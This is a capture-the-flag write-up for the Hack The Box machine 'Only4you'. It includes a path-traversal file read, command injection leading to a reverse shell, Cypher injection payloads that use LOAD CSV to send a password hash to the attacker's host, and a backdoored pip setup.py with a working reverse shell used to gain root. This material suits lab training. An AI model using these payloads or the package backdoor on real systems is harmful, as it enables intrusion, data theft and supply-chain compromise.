


Only4you#
Enum#
nmap -sC -sV 10.10.11.210 -oN scans/nmap.initial
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 19:21 IST
Nmap scan report for only4you.htb (10.10.11.210)
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 e883e0a9fd43df38198aaa35438411ec (RSA)
| 256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_ 256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Only4you
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.05 seconds
dirsearch -r -u http://only4you.htb
_|. _ _ _ _ _ _|_ v0.4.2
(_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Output File: /home/blnkn/.dirsearch/reports/only4you.htb/_23-05-23_19-23-24.txt
Error Log: /home/blnkn/.dirsearch/logs/errors-23-05-23_19-23-24.log
Target: http://only4you.htb/
[19:23:24] Starting:
Task Completed
ffuf \
-c \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
-u "http://only4you.htb" \
-H "Host: FUZZ.only4you.htb" -mc all -fs 178
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.0.0-dev
________________________________________________
:: Method : GET
:: URL : http://only4you.htb
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
:: Header : Host: FUZZ.only4you.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: all
:: Filter : Response size: 178
________________________________________________
[Status: 200, Size: 2191, Words: 370, Lines: 52, Duration: 36ms]
* FUZZ: beta
:: Progress: [114441/114441] :: Job [1/1] :: 1234 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
dirsearch -r -u http://beta.only4you.htb
_|. _ _ _ _ _ _|_ v0.4.2
(_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Output File: /home/blnkn/.dirsearch/reports/beta.only4you.htb/_23-05-23_19-27-28.txt
Error Log: /home/blnkn/.dirsearch/logs/errors-23-05-23_19-27-28.log
Target: http://beta.only4you.htb/
[19:27:28] Starting:
[19:27:40] 405 - 683B - /download
[19:27:43] 200 - 6KB - /list
[19:27:49] 200 - 12KB - /source
Task Completed
curl -I -XGET http://beta.only4you.htb/download
HTTP/1.1 405 METHOD NOT ALLOWED
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 23 May 2023 18:29:36 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 683
Connection: keep-alive
curl -I -XPOST http://beta.only4you.htb/download
HTTP/1.1 400 BAD REQUEST
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 23 May 2023 18:29:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 676
Connection: keep-alive
grep route app.py
@app.route('/', methods=['GET'])
@app.route('/resize', methods=['POST', 'GET'])
@app.route('/convert', methods=['POST', 'GET'])
@app.route('/source')
@app.route('/list', methods=['GET'])
@app.route('/download', methods=['POST'])
Arbitrary file read#
@app.route('/download', methods=['POST'])
def download():
image = request.form['image']
filename = posixpath.normpath(image)
if '..' in filename or filename.startswith('../'):
flash('Hacking detected!', 'danger')
return redirect('/list')
if not os.path.isabs(filename):
filename = os.path.join(app.config['LIST_FOLDER'], filename)
try:
if not os.path.isfile(filename):
flash('Image doesn\'t exist!', 'danger')
return redirect('/list')
except (TypeError, ValueError):
raise BadRequest()
return send_file(filename, as_attachment=True)
>>> import posixpath
>>> import os
>>> filename = posixpath.normpath("/../../../../etc/passwd")
>>> os.path.join('uploads/list', filename)
'/etc/passwd'
grep sh$ passwd
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
server {
listen 80;
return 301 http://only4you.htb$request_uri;
}
server {
listen 80;
server_name only4you.htb;
location / {
include proxy_params;
proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
}
}
server {
listen 80;
server_name beta.only4you.htb;
location / {
include proxy_params;
proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
}
}
Leaking the main app source code
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid
app = Flask(__name__)
app.secret_key = uuid.uuid4().hex
@app.route('/', methods=['GET', 'POST'])
def index():
if request.method == 'POST':
email = request.form['email']
subject = request.form['subject']
message = request.form['message']
ip = request.remote_addr
status = sendmessage(email, subject, message, ip)
if status == 0:
flash('Something went wrong!', 'danger')
elif status == 1:
flash('You are not authorized!', 'danger')
else:
flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
return redirect('/#contact')
else:
return render_template('index.html')
@app.errorhandler(404)
def page_not_found(error):
return render_template('404.html'), 404
@app.errorhandler(500)
def server_errorerror(error):
return render_template('500.html'), 500
@app.errorhandler(400)
def bad_request(error):
return render_template('400.html'), 400
@app.errorhandler(405)
def method_not_allowed(error):
return render_template('405.html'), 405
if __name__ == '__main__':
app.run(host='127.0.0.1', port=80, debug=False)
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress
def issecure(email, ip):
if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
return 0
else:
domain = email.split("@", 1)[1]
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
output = result.stdout.decode('utf-8')
if "v=spf1" not in output:
return 1
else:
domains = []
ips = []
if "include:" in output:
dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
dms.pop(0)
for domain in dms:
domains.append(domain)
while True:
for domain in domains:
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
output = result.stdout.decode('utf-8')
if "include:" in output:
dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
domains.clear()
for domain in dms:
domains.append(domain)
elif "ip4:" in output:
ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
ipaddresses.pop(0)
for i in ipaddresses:
ips.append(i)
else:
pass
break
elif "ip4" in output:
ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
ipaddresses.pop(0)
for i in ipaddresses:
ips.append(i)
else:
return 1
for i in ips:
if ip == i:
return 2
elif ipaddress.ip_address(ip) in ipaddress.ip_network(i):
return 2
else:
return 1
def sendmessage(email, subject, message, ip):
status = issecure(email, ip)
if status == 2:
msg = EmailMessage()
msg['From'] = f'{email}'
msg['To'] = 'info@only4you.htb'
msg['Subject'] = f'{subject}'
msg['Message'] = f'{message}'
smtp = smtplib.SMTP(host='localhost', port=25)
smtp.send_message(msg)
smtp.quit()
return status
elif status == 1:
return status
else:
return status
Command injection in the main app#
Possible command injection in the subprocess.run call for dig

updog
[+] Serving /home/blnkn/sec/htb/machines...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
* Running on all addresses (0.0.0.0)
* Running on http://127.0.0.1:9090
* Running on http://192.168.0.252:9090
Press CTRL+C to quit
10.10.11.210 - - [23/Jul/2023 10:31:55] "GET / HTTP/1.1" 200 -

updog
[+] Serving /home/blnkn/sec/htb/machines/onlyforyou/tools/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
* Running on all addresses (0.0.0.0)
* Running on http://127.0.0.1:9090
* Running on http://192.168.0.252:9090
Press CTRL+C to quit
10.10.11.210 - - [23/Jul/2023 10:40:05] "GET /shell.sh HTTP/1.1" 200 -
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.218] from (UNKNOWN) [10.10.11.210] 37816
bash: cannot set terminal process group (1013): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
More Enumeration through a socks5 proxy#
netstat -tulpen
netstat -tulpen
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State User Inode PID/Program name
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 0 36821 -
tcp 0 0 127.0.0.1:3000 0.0.0.0:* LISTEN 1001 39181 -
tcp 0 0 127.0.0.1:8001 0.0.0.0:* LISTEN 1001 38925 -
tcp 0 0 127.0.0.1:33060 0.0.0.0:* LISTEN 113 38302 -
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN 113 39161 -
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN 0 36807 1047/nginx: worker
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN 101 36163 -
tcp6 0 0 :::22 :::* LISTEN 0 36823 -
tcp6 0 0 127.0.0.1:7687 :::* LISTEN 997 40081 -
tcp6 0 0 127.0.0.1:7474 :::* LISTEN 997 40090 -
udp 0 0 127.0.0.53:53 0.0.0.0:* 101 36162 -
udp 0 0 0.0.0.0:68 0.0.0.0:* 0 32266 -
There’s more stuff listening locally, so let’s setup a socks5 proxy
./chisel-arm server -p 4242 --socks5 --reverse
2023/07/23 10:45:08 server: Reverse tunnelling enabled
2023/07/23 10:45:08 server: Fingerprint WBvoqIl9NB6D6TyM2A9dtOo3MBMjgu+j4JEw1BSt/mk=
2023/07/23 10:45:08 server: Listening on http://0.0.0.0:4242
2023/07/23 10:45:12 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
^Z
www-data@only4you:/dev/shm/.blnkn$ curl -kO https://10.10.14.218:9090/chisel-amd
<lnkn$ curl -kO https://10.10.14.218:9090/chisel-amd
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 8188k 100 8188k 0 0 4738k 0 0:00:01 0:00:01 --:--:-- 4741k
www-data@only4you:/dev/shm/.blnkn$ chmod +x chisel-amd
chmod +x chisel-amd
www-data@only4you:/dev/shm/.blnkn$ ./chisel-amd client 10.10.14.218:4242 R:1080:socks
< ./chisel-amd client 10.10.14.218:4242 R:1080:socks
There’s a gogs server on 3000
proxychains -q curl -I http://127.0.0.1:3000
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
Set-Cookie: i_like_gogs=d838bd3e5431b869; Path=/; HttpOnly
Set-Cookie: _csrf=JnXobIfGQV8duHHbXzpC6DLP4hg6MTY5MDEwNTg3NzEzMTY1OTMzNA; Path=/; Domain=127.0.0.1; Expires=Mon, 24 Jul 2023 09:51:17 GMT; HttpOnly
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Date: Sun, 23 Jul 2023 09:51:17 GMT
Gunicorn on 8001
proxychains -q curl -I http://127.0.0.1:8001
HTTP/1.1 302 FOUND
Server: gunicorn/20.0.4
Date: Sun, 23 Jul 2023 09:51:59 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 199
Location: /login
Set-Cookie: session=8bba6f03-82d1-4bc9-8699-7b81f10f5860; Expires=Sun, 23 Jul 2023 09:56:59 GMT; HttpOnly; Path=/
Neo4j on 7474
proxychains -q curl http://127.0.0.1:7474
{
"bolt_routing" : "neo4j://127.0.0.1:7687",
"transaction" : "http://127.0.0.1:7474/db/{databaseName}/tx",
"bolt_direct" : "bolt://127.0.0.1:7687",
"neo4j_version" : "5.6.0",
"neo4j_edition" : "community"
}
MySQL on 3306 and 33060
proxychains -q mysql -h 127.0.0.1 -u root -P 3306
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: NO)
proxychains -q mysql -h 127.0.0.1 -u root -P 33060
ERROR:
Something in 7687
proxychains -q curl -I http://127.0.0.1:7687
^C
proxychains -q nc -vz 127.0.0.1 7687
127.0.0.1 [127.0.0.1] 7687 (?) open : Operation now in progress
proxychains -q nc 127.0.0.1 7687
^C
And of course that dns server, even though it doesn’t seem to be returning anything interesting
www-data@only4you:~/only4you.htb$ dig txt only4you.htb
dig txt only4you.htb
; <<>> DiG 9.16.1-Ubuntu <<>> txt only4you.htb
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 31240
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;only4you.htb. IN TXT
;; Query time: 1628 msec
;; SERVER: 127.0.0.53#53(127.0.0.53)
;; WHEN: Sun Jul 23 10:16:54 UTC 2023
;; MSG SIZE rcvd: 41
Nothing interesting at first glance in gogs, except existing usernames gogs.png
{kind=link}
7474 is the web pannel for neo4j, and it seems to point to the actual db in 7687 neo4j.png
{kind=link}
Didn’t find any creds to neo4j or mysql in the server so, gunicorn is an application web server so we can start by exploring there, the password is just admin:admin
tasks.png
search.png
{kind=link}
{kind=link}
According to the task the db for this has been migrated to neo4j, and we have a search feature, so maybe we can mess with that.
https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j
Neo4j injection#
Getting the version of the database
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.218:9090/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
updog
[+] Serving /home/blnkn/sec/htb/machines...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
* Running on all addresses (0.0.0.0)
* Running on http://127.0.0.1:9090
* Running on http://192.168.0.252:9090
Press CTRL+C to quit
10.10.11.210 - - [23/Jul/2023 11:32:34] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [23/Jul/2023 11:32:34] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" HTTPStatus.BAD_REQUEST -
Getting the label, which is the equivalent of a table name
' OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.218:9090/?l='+label as l RETURN 0 as _0 //
updog
[+] Serving /home/blnkn/sec/htb/machines...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
* Running on all addresses (0.0.0.0)
* Running on http://127.0.0.1:9090
* Running on http://192.168.0.252:9090
Press CTRL+C to quit
10.10.11.210 - - [23/Jul/2023 11:47:14] "GET /?l=user HTTP/1.1" 200 -
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p lOAD CSV FROM 'http://10.10.14.218:9090/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
updog
[+] Serving /home/blnkn/sec/htb/machines...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
* Running on all addresses (0.0.0.0)
* Running on http://127.0.0.1:9090
* Running on http://192.168.0.252:9090
Press CTRL+C to quit
10.10.11.210 - - [23/Jul/2023 11:53:47] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
Privesc with a backdoored pip package#
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User john may run the following commands on only4you:
(root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
127.0.0.1:3000 is the gogs instance we saw earlier, so presumably we can upload pip packages there and then gain RCE through that sudo command
https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/
https://github.com/wunderwuzzi23/this_is_fine_wuzzi.git
Making my own setup.py with a reverse shell in it
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os
import subprocess
import socket
import pty
def RunCommand():
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.218",4040))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("sh")
except:
pass
class RunEggInfoCommand(egg_info):
def run(self):
RunCommand()
egg_info.run(self)
class RunInstallCommand(install):
def run(self):
RunCommand()
install.run(self)
setup(
name = "this_is_fine_wuzzi",
version = "0.0.1",
license = "MIT",
packages=find_packages(),
cmdclass={
'install' : RunInstallCommand,
'egg_info': RunEggInfoCommand
},
)
Building it
python -m build
* Creating venv isolated environment...
* Installing packages in isolated environment... (setuptools >= 40.8.0, wheel)
* Getting build dependencies for sdist...
running egg_info
creating this_is_fine_wuzzi.egg-info
writing this_is_fine_wuzzi.egg-info/PKG-INFO
writing dependency_links to this_is_fine_wuzzi.egg-info/dependency_links.txt
writing top-level names to this_is_fine_wuzzi.egg-info/top_level.txt
writing manifest file 'this_is_fine_wuzzi.egg-info/SOURCES.txt'
reading manifest file 'this_is_fine_wuzzi.egg-info/SOURCES.txt'
adding license file 'LICENSE'
writing manifest file 'this_is_fine_wuzzi.egg-info/SOURCES.txt'
* Building sdist...
running sdist
running egg_info
writing this_is_fine_wuzzi.egg-info/PKG-INFO
writing dependency_links to this_is_fine_wuzzi.egg-info/dependency_links.txt
writing top-level names to this_is_fine_wuzzi.egg-info/top_level.txt
reading manifest file 'this_is_fine_wuzzi.egg-info/SOURCES.txt'
adding license file 'LICENSE'
writing manifest file 'this_is_fine_wuzzi.egg-info/SOURCES.txt'
running check
creating this_is_fine_wuzzi-0.0.1
creating this_is_fine_wuzzi-0.0.1/this_is_fine_wuzzi.egg-info
copying files to this_is_fine_wuzzi-0.0.1...
copying LICENSE -> this_is_fine_wuzzi-0.0.1
copying README.md -> this_is_fine_wuzzi-0.0.1
copying setup.py -> this_is_fine_wuzzi-0.0.1
copying this_is_fine_wuzzi.egg-info/PKG-INFO -> this_is_fine_wuzzi-0.0.1/this_is_fine_wuzzi.egg-info
copying this_is_fine_wuzzi.egg-info/SOURCES.txt -> this_is_fine_wuzzi-0.0.1/this_is_fine_wuzzi.egg-info
copying this_is_fine_wuzzi.egg-info/dependency_links.txt -> this_is_fine_wuzzi-0.0.1/this_is_fine_wuzzi.egg-info
copying this_is_fine_wuzzi.egg-info/top_level.txt -> this_is_fine_wuzzi-0.0.1/this_is_fine_wuzzi.egg-info
Writing this_is_fine_wuzzi-0.0.1/setup.cfg
Creating tar archive
removing 'this_is_fine_wuzzi-0.0.1' (and everything under it)
* Building wheel from sdist
* Creating venv isolated environment...
* Installing packages in isolated environment... (setuptools >= 40.8.0, wheel)
* Getting build dependencies for wheel...
running egg_info
writing this_is_fine_wuzzi.egg-info/PKG-INFO
writing dependency_links to this_is_fine_wuzzi.egg-info/dependency_links.txt
writing top-level names to this_is_fine_wuzzi.egg-info/top_level.txt
reading manifest file 'this_is_fine_wuzzi.egg-info/SOURCES.txt'
adding license file 'LICENSE'
writing manifest file 'this_is_fine_wuzzi.egg-info/SOURCES.txt'
* Installing packages in isolated environment... (wheel)
* Building wheel...
running bdist_wheel
running build
installing to build/bdist.linux-aarch64/wheel
running install
running install_egg_info
running egg_info
writing this_is_fine_wuzzi.egg-info/PKG-INFO
writing dependency_links to this_is_fine_wuzzi.egg-info/dependency_links.txt
writing top-level names to this_is_fine_wuzzi.egg-info/top_level.txt
reading manifest file 'this_is_fine_wuzzi.egg-info/SOURCES.txt'
adding license file 'LICENSE'
writing manifest file 'this_is_fine_wuzzi.egg-info/SOURCES.txt'
Copying this_is_fine_wuzzi.egg-info to build/bdist.linux-aarch64/wheel/this_is_fine_wuzzi-0.0.1-py3.10.egg-info
running install_scripts
creating build/bdist.linux-aarch64/wheel/this_is_fine_wuzzi-0.0.1.dist-info/WHEEL
creating '/home/blnkn/this_is_fine_wuzzi/dist/.tmp-fla000ka/this_is_fine_wuzzi-0.0.1-py3-none-any.whl' and adding 'build/bdist.linux-aarch64/wheel' to it
adding 'this_is_fine_wuzzi-0.0.1.dist-info/LICENSE'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/METADATA'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/WHEEL'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/top_level.txt'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/RECORD'
removing build/bdist.linux-aarch64/wheel
Successfully built this_is_fine_wuzzi-0.0.1.tar.gz and this_is_fine_wuzzi-0.0.1-py3-none-any.whl
Creating a repo in /dev/shm on the box for easy network access to the gogs server
john@only4you:/dev/shm/fine$ git init
Initialized empty Git repository in /dev/shm/fine/.git/
john@only4you:/dev/shm/fine$ git add this_is_fine_wuzzi-0.0.1.tar.gz
john@only4you:/dev/shm/fine$ git commit -m "This is fine"
*** Please tell me who you are.
Run
git config --global user.email "you@example.com"
git config --global user.name "Your Name"
to set your account's default identity.
Omit --global to set the identity only in this repository.
fatal: unable to auto-detect email address (got 'john@only4you.(none)')
john@only4you:/dev/shm/fine$ git config --global user.email "john@only4you.htb"
john@only4you:/dev/shm/fine$ git config --global user.name "john"
john@only4you:/dev/shm/fine$ git commit -m "This is fine"
[master (root-commit) 2fa0af3] This is fine
1 file changed, 0 insertions(+), 0 deletions(-)
create mode 100644 this_is_fine_wuzzi-0.0.1.tar.gz
john@only4you:/dev/shm/fine$ git push --set-upstream origin master
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 3.01 KiB | 3.01 MiB/s, done.
Total 3 (delta 0), reused 0 (delta 0)
Username for 'http://127.0.0.1:3000': john
Password for 'http://john@127.0.0.1:3000':
To http://127.0.0.1:3000/john/fine.git
* [new branch] master -> master
Branch 'master' set up to track remote branch 'master' from 'origin'.
And now that the backdoored package is in the gogs server it can simply be downloaded with the sudo command
john@only4you:/dev/shm/fine$ sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/this_is_fine_wuzzi-0.0.1.tar.gz
File was already downloaded /dev/shm/fine/this_is_fine_wuzzi-0.0.1.tar.gz
And we get our callback
rlwrap nc -lvnp 4040
listening on [any] 4040 ...
connect to [10.10.14.218] from (UNKNOWN) [10.10.11.210] 46182
# id
id
uid=0(root) gid=0(root) groups=0(root)
# pwd
pwd
/tmp/pip-req-build-b6ikjfeq